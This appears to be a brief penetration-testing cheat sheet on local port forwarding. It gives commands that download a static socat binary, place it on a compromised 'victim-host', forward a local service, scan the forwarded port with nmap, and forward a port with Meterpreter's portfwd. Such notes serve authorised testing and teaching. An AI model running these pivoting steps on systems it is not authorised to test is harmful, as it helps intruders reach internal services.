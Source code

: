 # Local portforwarding
## Local portforwarding with SSH
## Local portforwarding with socat
<pre>
# download socat
attack-host$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

# transfer binary to victim host
...

# set local portforwarding on victim host
victim-host$ ./socat tcp-l:4567,fork,reuseaddr tcp:127.0.0.1:8080

# use tools on attack machine against listening remote port
attack-host$ nmap -Pn -v victim-host.local -p4567
PORT   STATE SERVICE
4567/tcp open  http
</pre>
## Local portforwarding with Meterpreter
<pre>
meterpreter> portfwd add -l 7878 -r &lt;victim_ip&gt; -p 8080
</pre>
